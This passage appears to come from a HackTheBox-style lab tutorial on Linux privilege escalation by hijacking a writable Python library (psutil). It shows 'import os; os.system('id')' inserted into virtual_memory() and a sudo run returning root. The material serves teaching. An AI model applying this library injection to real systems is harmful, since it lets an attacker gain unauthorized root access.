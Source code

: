 Such permissions are most common in developer environments where many developers work on different scripts and may require higher privileges.

#### Module Contents

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

This is the part in the library where we can insert our code. It is recommended to put it right at the beginning of the function. There we can insert everything we consider correct and effective. We can import the module `os` for testing purposes, which allows us to execute system commands. With this, we can insert the command `id` and check during the execution of the script if the inserted code is executed.

#### Module Contents - Hijacking

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Now we can run the script with `sudo` and check if we get the desired result.

#### Privilege Escalation

```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```
